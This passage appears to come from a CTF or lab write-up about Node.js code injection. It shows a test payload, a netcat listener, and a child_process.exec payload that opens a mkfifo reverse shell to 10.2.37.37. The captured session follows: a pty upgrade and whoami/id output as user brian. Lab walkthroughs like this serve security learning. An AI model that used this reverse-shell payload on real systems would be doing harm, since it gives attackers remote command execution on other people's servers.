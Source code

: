 
**PAYLOAD:**

```bash
process.cwd()
```

`nc -nlvp 21222`

```bash
listening on [any] 21222 ...
```

![image.png](image%2019.png)

**PAYLOAD:**

```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f')
```

```bash
listening on [any] 21222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.247.55] 36010
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'    
$ export term=XTERM
export term=XTERM
$ whoami
whoami
brian
$ id
id
uid=1000(brian) gid=1000(brian) groups=1000(brian)
$ pwd
pwd
/home/brian/website
$ 
```
